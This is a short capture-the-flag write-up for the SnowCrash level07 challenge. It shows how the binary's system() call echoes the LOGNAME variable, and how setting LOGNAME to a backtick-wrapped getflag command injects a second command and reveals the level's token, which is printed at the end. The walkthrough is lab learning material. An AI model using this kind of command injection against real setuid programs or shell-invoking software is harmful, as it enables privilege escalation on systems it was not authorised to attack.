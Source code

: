 ## level07

home dir has an exec called level07
I did `objdump -d level07` to disassemble the binary and found `system@plt` which seems to be a system call in the function `main`, upon googling I find an exploit: 
https://github.com/Bretley/how2exploit_binary/blob/master/exercise-2/README.md

Simple ltrace showed me the following:

	getenv("LOGNAME")                                             = "level07"
	asprintf(0xbffff704, 0x8048688, 0xbfffff37, 0xb7e5ee55, 0xb7fed280) = 18
	system("/bin/echo level07 "level07
	<unfinished ...>

So now I check the env variable LOGNAME has the username "level07" and that the syscall executes echo to print the LOGNAME variable

	level07@SnowCrash:~$ echo $LOGNAME
	level07
	level07@SnowCrash:~$ export LOGNAME='`getflag`'
	level07@SnowCrash:~$ ./level07
	Check flag.Here is your token : `fiumuikeil55xe9cu4dood66h`
